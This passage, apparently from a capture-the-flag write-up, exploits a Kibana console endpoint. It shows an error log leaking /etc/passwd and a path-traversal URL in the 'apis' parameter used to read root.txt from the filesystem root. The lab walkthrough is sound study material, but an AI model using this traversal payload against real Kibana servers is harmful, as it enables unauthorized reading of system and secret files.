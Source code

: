 ```json
{"type":"error","@timestamp":"2020-05-19T23:43:07Z","tags":["warning","process"],"pid":2700,"level":"error","error":{"message":"Unhandled promise rejection. This error originated either by throwing inside of an async function without a catch block, or by rejecting a promise which was not handled with .catch(). (rejection id: 9)","name":"UnhandledPromiseRejectionWarning","stack":"SyntaxError: /etc/passwd: Unexpected token, expected ; (1:8)\n> 1 | root:x:0:0:root:/root:/bin/bash\n    |         ^\n  2 | bin:x:1:1:bin:/bin:/sbin/nologin\n  3 | daemon:x:2:2:daemon:/sbin:/sbin/nologin\n  4 | adm:x:3:4:adm:/var/adm:/sbin/nologin\n    at Parser.pp$5.raise (/usr/share/kibana/node_modules/babylon/lib/index.js:4454:13)\n    at Parser.pp.unexpected (/usr/share/kibana/node_modules/babylon/lib/index.js:1761:8)\n    at Parser.pp.semicolon (/usr/share/kibana/node_modules/babylon/lib/index.js:1742:38)\n    at Parser.pp$1.parseExpressionStatement (/usr/share/kibana/node_modules/babylon/lib/index.js:2236:8)\n    at Parser.parseExpressionStatement (/usr/share/kibana/node_modules/babylon/lib/index.js:5934:20)\n    at Parser.pp$1.parseStatement (/usr/share/kibana/node_modules/babylon/lib/index.js:1911:17)\n    at Parser.parseStatement (/usr/share/kibana/node_modules/babylon/lib/index.js:5910:22)\n    at Parser.pp$1.parseLabeledStatement (/usr/share/kibana/node_modules/babylon/lib/index.js:2228:20)\n    at Parser.pp$1.parseStatement (/usr/share/kibana/node_modules/babylon/lib/index.js:1909:17)\n    at Parser.parseStatement (/usr/share/kibana/node_modules/babylon/lib/index.js:5910:22)\n    at Parser.pp$1.parseLabeledStatement (/usr/share/kibana/node_modules/babylon/lib/index.js:2228:20)\n    at Parser.pp$1.parseStatement (/usr/share/kibana/node_modules/babylon/lib/index.js:1909:17)\n    at Parser.parseStatement (/usr/share/kibana/node_modules/babylon/lib/index.js:5910:22)\n    at Parser.pp$1.parseBlockBody (/usr/share/kibana/node_modules/babylon/lib/index.js:2268:21)\n    at Parser.pp$1.parseTopLevel (/usr/share/kibana/node_modules/babylon/lib/index.js:1778:8)\n    at Parser.parse (/usr/share/kibana/node_modules/babylon/lib/index.js:1673:17)\n    at parse (/usr/share/kibana/node_modules/babylon/lib/index.js:7305:37)\n    at File.parse (/usr/share/kibana/node_modules/babel-register/node_modules/babel-core/lib/transformation/file/index.js:517:15)\n    at File.parseCode (/usr/share/kibana/node_modules/babel-register/node_modules/babel-core/lib/transformation/file/index.js:602:20)\n    at /usr/share/kibana/node_modules/babel-register/node_modules/babel-core/lib/transformation/pipeline.js:49:12\n    at File.wrap (/usr/share/kibana/node_modules/babel-register/node_modules/babel-core/lib/transformation/file/index.js:564:16)\n    at Pipeline.transform (/usr/share/kibana/node_modules/babel-register/node_modules/babel-core/lib/transformation/pipeline.js:47:17)\n    at Object.transformFileSync (/usr/share/kibana/node_modules/babel-register/node_modules/babel-core/lib/api/node.js:152:10)\n    at compile (/usr/share/kibana/node_modules/babel-register/lib/node.js:118:20)\n    at loader (/usr/share/kibana/node_modules/babel-register/lib/node.js:144:14)\n    at Object.require.extensions.(anonymous function) [as .js] (/usr/share/kibana/node_modules/babel-register/lib/node.js:154:7)\n    at Module.load (module.js:565:32)\n    at tryModuleLoad (module.js:505:12)"},"message":"Unhandled promise rejection. This error originated either by throwing inside of an async function without a catch block, or by rejecting a promise which was not handled with .catch(). (rejection id: 9)"}
```
As you can see. We get the content of ```/etc/passwd``` by reading the log. After some poking and diging around I found out that the ```root.txt``` is at root directroty (```/``` not ```/root```) so try ```http://<IP>:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../../../../../../../root.txt```
```json
```